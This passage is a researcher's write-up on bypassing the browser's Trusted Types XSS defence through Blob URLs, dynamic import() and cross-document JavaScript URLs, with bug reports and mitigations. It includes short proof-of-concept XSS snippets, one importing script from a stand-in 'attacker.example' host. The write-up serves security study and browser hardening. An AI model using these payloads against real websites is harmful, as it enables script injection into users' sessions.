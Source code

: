 ## Platform-level bypasses

### Blob URL
When creating a Blob URL, an attacker-controlled string may be used depending on the Web application.

Example:
```
let attackerControlledString = '<script>alert(document.domain)<\/script>';
const  html = '<h1> Hello ' + attackerControlledString + '!</h1>';
const  blob = new Blob([html], {type: 'text/html'});
const  url = URL.createObjectURL(blob);
location = url; // XSS
```

While it seems like the string assignment to `Blob` object needs Trusted Types enforcement, it's difficult to enforce it because:
1. The `type` argument can be something safe (e.g. `text/plain`) or something unknown (maybe `application/signed-exchange` in the future?).
2. [`URL.createObjectURL`](https://developer.mozilla.org/en-US/docs/Web/API/URL/createObjectURL) also accepts [`File`](https://developer.mozilla.org/en-US/docs/Web/API/File) object and [`MediaSource`](https://developer.mozilla.org/en-US/docs/Web/API/MediaSource) object.

I reported [this bug](https://bugs.chromium.org/p/chromium/issues/detail?id=933171), but it remains unpatched at the time of writing (probably due to the complexity). Conclusion here is that we should probably [change Blob URL to something safe](https://github.com/w3c/FileAPI/issues/74) 😊

### Script loading like `import`
[Non-DOM API based script loading](https://github.com/w3c/webappsec-trusted-types/issues/232) aren't currently enforced by Trusted Types. 

Example:
```
let  attackerControlledString = '/attacker.example/exploit';
import(`/${attackerControlledString}.js`); // XSS
```

While this isn't ideal, this can be mitigated by setting CSP `script-src` with allow-list of origins/URLs (which WebUI does by default).

## Application specific bypass

### Cross-document vectors
As the [Trusted Types specification](https://w3c.github.io/webappsec-trusted-types/dist/spec/#cross-document-vectors) indicates, interaction of 2 documents might bypass a Trusted Types if one of them doesn't have a Trusted Types enforced. While this sounds obvious, it's an interesting vector because of how Trusted Types handles a JavaScript URL.

When a JavaScript URL is assigned to `HTMLAnchorElement.href`, `HTMLIFrameElement.src`, etc, it results in a DOM-based XSS. However, Trusted Types doesn't block assignments of JavaScript URL to those sinks. Instead, it blocks the navigation to a JavaScript URL if the Trusted Types is enforced in the document (just like how CSP's `script-src` blocks a JavaScript URL). 
